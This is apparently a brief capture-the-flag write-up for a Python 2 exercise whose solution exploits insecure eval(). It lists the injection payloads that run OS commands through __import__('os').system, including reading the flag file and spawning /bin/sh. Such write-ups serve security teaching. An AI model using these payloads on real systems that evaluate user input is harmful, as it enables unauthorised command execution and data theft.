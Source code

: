 # Exercise 2-2 Python 1+1 [100 points] (49 solves)
python 2 Vulnerability: Insecure use of `eval()` \
`__import__('os').system("ls")` \
`__import__('os').system("cat flag")`

Alternatively, you can do

`__import__('os').system("/bin/sh")` \
`cat flag`
